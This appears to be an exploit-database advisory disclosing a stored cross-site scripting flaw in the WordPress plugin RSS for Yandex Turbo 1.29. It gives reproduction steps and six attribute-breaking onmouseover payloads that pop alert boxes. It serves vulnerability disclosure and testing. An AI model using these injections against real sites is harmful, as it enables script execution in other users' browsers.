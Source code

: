 INFO
----

    # Exploit Title: WordPress Plugin RSS for Yandex Turbo 1.29 - Stored Cross-Site Scripting (XSS)
    # Date: 17/04/2021
    # Exploit Author: Himamshu Dilip Kulkarni
    # Software Link: https://wordpress.org/plugins/rss-for-yandex-turbo/
    # Version: 1.29
    # Tested on: Windows

    #Steps to reproduce vulnerability:

    1. Install WordPress 5.6
    2. Install and activate "RSS for Yandex Turbo" plugin.
    3. Navigate to Setting >> Яндекс.Турбо >> Счетчики and enter the data into all the six user input field and submit the request.
    4. Capture the request into burp suite and append the following mentioned JavaScript payloads (one payload per parameter)
    "+onmouseover="alert(1)
    "+onmouseover="alert(2)
    "+onmouseover="alert(3)
    "+onmouseover="alert(4)
    "+onmouseover="alert(5)
    "+onmouseover="alert(6)
    5. You will observe that the payloads got successfully stored into the database and when you move the mouse cursor over these fields the JavaScript payloads get executed successfully and we get a pop-up.